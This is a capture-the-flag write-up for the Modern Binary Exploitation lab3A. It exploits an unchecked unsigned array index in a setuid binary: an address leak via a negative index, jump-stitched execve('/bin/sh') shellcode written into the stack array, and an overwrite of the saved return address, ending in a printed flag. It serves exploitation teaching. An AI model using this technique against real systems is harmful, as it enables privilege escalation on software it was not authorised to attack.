






# Modern Binary Exploitation - lab3A
 
| | |
| --- | --- |
| **Lab** | 03 · Shellcoding |
| **Tier** | A |
| **Target** | `/levels/lab03/lab3A` (ELF32, Intel 80386) |
| **Class** | out-of-bounds stack write (unchecked unsigned array index) |
| **Root cause** | a user-supplied `unsigned int` indexes a 100-entry stack array with no bounds check, giving an arbitrary relative read and write across `main`'s frame |
| **Impact** | arbitrary code execution as the setuid owner `lab3end` |
| **Goal** | run shellcode as the setuid owner and retrieve the next `.pass` |
| **Difficulty** | Low |

## Overview

## First look
 
Logged in as `lab3A`, the first thing we look at is the target's permissions:
 


The `s` in the mode string `-r-sr-x---` is the `setuid` bit, and the owner is `lab3end`, so any code the program runs executes with `lab3end`'s effective `uid`. The group is `lab3A`, which is why we, logged in as `lab3A`, hold the group's `r-x` and may execute the file at all. The escalation target for this tier is therefore `lab3end`, and the file we are after is `/home/lab3end/.pass`.

We check the mitigation posture with checksec:




All protections are disabled. With `NX` off, the stack and other writable mappings are executable, so attacker-supplied bytes can be executed as code. With no `stack canary`, a sequential write from the buffer reaches the saved return address with no guard value in between, so hijacking control flow requires only the buffer-to-return offset. With `PIE` disabled, the binary loads at a fixed base, so its code and data addresses are constant across runs. With `RELRO` off, the `GOT` stays writable, and with `FORTIFY` off, the standard string functions carry no bounds-checking wrappers.

Running it blind shows the surface:

```bash
$ ./lab3A
----------------------------------------------------
  Welcome to quend's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   quend has reserved some storage for herself :>
----------------------------------------------------

Input command: read
 Index: 1
 Number at data[1] is 0
 Completed read command successfully
```

## Disassembling `main`

`main` reserves a large frame and zeroes a data array near the bottom of it:



```asm
0x08048a17 <+5>:   and    esp,0xfffffff0
0x08048a1a <+8>:   sub    esp,0x1c0                 ; reserve the frame
0x08048a62 <+80>:  lea    ebx,[esp+0x18]            ; &data
0x08048a6b <+89>:  mov    edx,0x64                  ; 0x64 = 100 dwords
0x08048a74 <+98>:  rep stos DWORD PTR es:[edi],eax  ; zero data[0..99], eax = 0
```

The `rep stos` writes `0x64` (100) zero dwords starting at `[esp+0x18]`, so `data` is a 100-entry array of 4-byte integers, 400 bytes, living on the stack.

Before it serves a single command, `main` scrubs the process arguments and environment. It walks `argv` and then `envp` and zeroes every string it finds:

```asm
; walk argv at [ebp+0xc], zero each string
0x08048a80 <+110>: call   strlen@plt
0x08048a99 <+135>: call   memset@plt               ; memset(argv[i], 0, len)
; then the same walk over envp at [ebp+0x10]
0x08048ace <+188>: call   memset@plt               ; memset(envp[i], 0, len)
```

This is deliberate hardening, and it is worth naming because it removes an avenue the earlier tiers left open. Stashing a shellcode stub in an environment variable and returning to it is a standard move, and `main` closes it by overwriting `argv` and `envp` with zeroes at startup. Whatever code this exploit injects has to live somewhere `main` does not scrub.

The rest of `main` is a command loop. It reads a command, compares it against three keywords, and dispatches:

```asm
0x08048b14 <+258>: lea    eax,[esp+0x1a8]
0x08048b1e <+268>: call   fgets@plt                 ; fgets(cmd, 0x14, stdin), 20 bytes
0x08048b57 <+325>: call   strncmp@plt               ; compare against "store"
0x08048b5e <+332>: jne    main+355
0x08048b60 <+334>: lea    eax,[esp+0x18]            ; &data
0x08048b67 <+341>: call   store_number             ; store_number(&data)
0x08048b9f <+397>: call   read_number              ; read_number(&data), on the "read" branch
```

The command text is read into `[esp+0x1a8]`, a 20-byte buffer sitting just above the array, and matched against `store`, `read`, and `quit`. On `store` and on `read`, `main` loads the address of the array into `eax` and calls the helper. `quit` leaves the loop and `main` returns.

So `main` never touches an index. It sets up the array, hardens the environment, and routes `store` and `read` to two helpers, handing each the base of `data`. The user-supplied index, the arithmetic applied to it, and any bounds check all live in `store_number` (`0x8048917`) and `read_number` (`0x80489c2`). Those two functions are where the bug is.

## The bug

`store_number` and `read_number` each receive the array base in `eax`, read a user-supplied index, and access `data[index]`. Neither checks that the index is less than 100, and the index is an `unsigned int`, so there is no negative-index rejection either. An index beyond the array simply computes `base + index*4` and reads or writes there. Because `data` lives on the stack, that is an arbitrary relative read and an arbitrary relative write into `main`'s stack frame and everything above it.

`read_number` applies no filter at all. It reads `data[index]` and prints it, which is a clean arbitrary read.

`store_number` writes `data[index] = value`, but gates the write on two conditions. The index may not be a multiple of three, and the value may not have `0xb7` as its most significant byte. Expressed as the rejection test:

```c
if (index % 3 == 0 || (value >> 24) == 0xb7)
    reject;
```

Neither condition restricts the index to the array's declared bounds, so both are a weak blacklist layered on top of a primitive that is already out of bounds. They shape the payload rather than prevent it, and the next sections take each in turn.

## Locating the saved return address

The target of the write is `main`'s saved return address, addressed as an index into `data`. From the disassembly, `data` begins at `esp+0x18` after `sub esp,0x1c0`, and the saved return address sits at `ebp+4`. Accounting for the prologue (`push ebp; mov ebp,esp; push edi; push ebx; and esp,0xfffffff0; sub esp,0x1c0`), the saved return address is `436` bytes above the start of the array when the alignment discards zero bytes. `data` is an array of 4-byte integers, so `store` places `data[i]` at `&data + 4*i`, and the index that lands on the saved return address is `436 / 4 = 109`.

So the saved return address is `data[109]`, and the index is convenient by design. `109 % 3 == 1`, so the index filter does not block it, and the slot is writable.

## The constraints the filters impose

The two filters are not arbitrary, they steer the exploit.

The `index % 3 == 0` rule forbids every third slot, so the shellcode cannot be written as one contiguous run. Writable indices come in adjacent pairs, `1,2` then `4,5` then `7,8`, each pair separated by one forbidden slot. A pair gives eight contiguous bytes. We lay the shellcode out one cell of eight bytes at a time, and end each cell with a two-byte short jump `\xeb\x04` (`jmp +4`) that hops over the four-byte forbidden slot and lands at the start of the next writable pair. The jumps stitch the cells into one continuous execution path across the holes the filter leaves.

The `(value >> 24) == 0xb7` rule forbids any value whose top byte is `0xb7`. On this box libc maps at `0xb7xxxxxx`, so the filter blocks writing a libc address. That is a direct block on the obvious ret2libc, where you would write the address of `system` into the saved return slot. It does not block a stack address, which is `0xbfxxxxxx`, and it does not block the bytes of ordinary shellcode. Combined with the `argv`/`envp` scrub in `main`, the filter funnels the exploit toward one path: put the shellcode on the stack, in the data array itself, and return to it at a `0xbf` stack address that the filter permits.

## Leaking the data address

To return into the array we need its runtime address, and the stack address differs between a debugger run and a bare run because the environment block changes the stack base. Rather than read it under a debugger and guess the offset, we leak it from the program itself, using the arbitrary read that `read_number` hands us for free.
 
`main` sets up each helper call with `lea eax,[esp+0x18]; mov [esp],eax; call store_number`, so the slot at `main`'s `esp` holds the value `&data`, 24 bytes below the array (`&data - 0x18`). Reading the index that maps to `&data - 24` returns `&data` itself. That index is `-6`, which as an unsigned value is `4294967290`:

```
read 4294967290   ->  data[-6]  =  *(&data - 24)  =  &data
```
 
`read_number` has no filter, so the large index is accepted, and the printed number is the array's own stack address. Because ASLR is off, the address is stable, so a value leaked from one run is valid for the next, with no debugger and no offset arithmetic.

## Writing the shellcode

The payload is a standard `execve("/bin/sh")` stub, laid out so that no single instruction straddles a forbidden slot. Each instruction occupies one eight-byte cell, padded with NOPs, ending in the `\xeb\x04` bridge jump:
 
```asm
xor eax, eax        ; 31 c0
push eax            ; 50
push 0x68732f2f     ; 68 2f 2f 73 68   "//sh"
push 0x6e69622f     ; 68 2f 62 69 6e   "/bin"
mov ebx, esp        ; 89 e3
push eax            ; 50
mov edx, esp        ; 89 e2
push ebx            ; 53
mov ecx, esp        ; 89 e1
mov al, 0xb         ; b0 0b            __NR_execve
int 0x80            ; cd 80
```

A short run of NOP-only cells sits in front of the stub as a landing sled, so the return address has a few bytes of tolerance. None of the eight-byte cells, packed as little-endian dwords, has `0xb7` as a top byte, so the value filter passes every store.
 
The whole thing is written into the array with a sequence of `store` commands, two per cell, at the paired writable indices, and the saved return slot at `data[109]` is set to the address of the first cell. On `quit`, `main` returns into the sled, the sled falls through into the stub, and the stub runs `execve("/bin/sh")` under `lab3end`'s euid.

## Exploitation

The array holds the payload. The NOP-sled cells go in first at the paired writable indices, the stub cells follow, and a final `store` at index `109` points the saved return address at the first sled cell, a `0xbf` stack value the filter accepts.

```asm
read 4294967290                 -> leaks &data for this run
store (1,2)(4,5)(7,8)...        -> NOP sled, then the jump-stitched execve stub
store 109 = <&data + sled>      -> saved return address points at the first sled cell
quit                            -> main returns into the sled
```
The leak at the top resolves `&data` for this run, and because ASLR is off the value is stable, so the address written into `data[109]` holds from one run to the next. On `quit`, `main` returns into the sled, the sled falls through into the `execve` stub, and the stub runs under lab3end's euid. id shows the euid transition the `-r-sr-x---` mode set up, with the real uid still `lab3A`, and `/home/lab3end/.pass` is then readable.

The generator is written to a temp file with a quoted heredoc, which keeps the `\x..` escapes and `$` tokens in the Python untouched by the shell:



`&data` is leaked with a single `read` command. Index `4294967290` is `-6` as an unsigned value, so `read_number` returns the pointer stored at `data[-6]`, which `main` left there as the call argument and is `&data` itself:



The leak prints `&data` in decimal as `3221222600`. In hexadecimal that is `0xbffff4c8`, the form the generator takes as its argument, where it becomes the return target written at `data[109]`. ASLR is off, so the address is stable across runs, and the value leaked here is still valid in the process the payload is piped into. The output is piped into a fresh process, with a trailing `cat` holding stdin open so the spawned shell keeps a live input:

```bash
lab3A@warzone:/levels/lab03$ (python2 "$G" 0xbffff4c8 ; cat) | ./lab3A
```



FLAG: `sw00g1ty_sw4p_h0w_ab0ut_d3m_h0ps`

